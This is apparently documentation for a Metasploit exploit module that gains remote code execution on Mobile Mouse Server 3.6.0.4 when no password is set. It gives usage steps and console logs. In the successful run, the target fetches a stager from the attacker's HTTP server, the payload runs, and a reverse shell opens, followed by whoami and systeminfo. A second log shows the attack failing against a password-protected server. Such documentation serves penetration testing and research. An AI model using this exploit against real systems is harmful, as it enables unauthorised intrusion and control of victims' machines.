 ## Vulnerable Application

This module utilizes the Mobile Mouse Server by RPA Technologies, Inc protocol
to deploy a payload and run it from the server.  This module will only deploy
a payload if the server is set without a password (default).
Tested against 3.6.0.4, current at the time of module writing

Version 3.6.0.4 can be downloaded from https://www.mobilemouse.com/downloads/setup.exe
    
## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/windows/misc/mobile_mouse_rce`
4. Set `rhost` and `lhost` as required.
5. Do: `run`
6. You should get a shell as the user who is running Mobile Mouse.

## Options

### SLEEP

The length of time, in seconds, to sleep between each command. This gives the remote program time to process the command on screen.
Defaults to `3`, but can be a little touchy.

## Scenarios

###  Mobile Mouse 3.6.0.4 on Windows 10

```
resource (mobile_mouse.rb)> use exploits/windows/misc/mobile_mouse_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (mobile_mouse.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (mobile_mouse.rb)> set lhost 2.2.2.2
lhost => 2.2.2.2
resource (mobile_mouse.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/mobile_mouse_rce) > run

[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] 1.1.1.1:9099 - Client name set to: M6braOok6j
[*] 1.1.1.1:9099 - Connecting
[+] 1.1.1.1:9099 - Connected to hostname WIN10PROLICENSE with MAC address 00:0C:29:B3:68:3D
[*] 1.1.1.1:9099 - Opening Command Prompt
[*] 1.1.1.1:9099 - Sending stager
[*] 1.1.1.1:9099 - Using URL: http://2.2.2.2:8080/
[+] 1.1.1.1:9099 - Payload request received, sending 73802 bytes of payload for staging
[*] 1.1.1.1:9099 - Opening Command Prompt again
[+] 1.1.1.1:9099 - Payload request received, sending 73802 bytes of payload for staging
[*] 1.1.1.1:9099 - Executing payload
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 1.1.1.1
[*] Command shell session 1 opened (2.2.2.2:4444 -> 1.1.1.1:49696) at 2022-09-26 15:40:03 -0400
[*] 1.1.1.1:9099 - Server stopped.
[!] 1.1.1.1:9099 - This exploit may require manual cleanup of 'c:\Windows\Temp\gxYUnChTLrOuA.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Windows\Temp>whoami
whoami
win10prolicense\windows

C:\Windows\Temp>systeminfo
systeminfo

Host Name:                 WIN10PROLICENSE
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.16299 N/A Build 16299
```

###  Mobile Mouse 3.6.0.4 on Windows 10, with a password

This should fail as the exploit was not written to work with a password.

```
resource (mobile_mouse.rb)> use exploits/windows/misc/mobile_mouse_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (mobile_mouse.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (mobile_mouse.rb)> set lhost 2.2.2.2
lhost => 2.2.2.2
resource (mobile_mouse.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/mobile_mouse_rce) > run

[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] 1.1.1.1:9099 - Client name set to: baqpHBHh5Q
[*] 1.1.1.1:9099 - Connecting
[-] 1.1.1.1:9099 - Exploit aborted due to failure: no-access: Unable to connect, server response: Please enter a password
[*] Exploit completed, but no session was created.
```
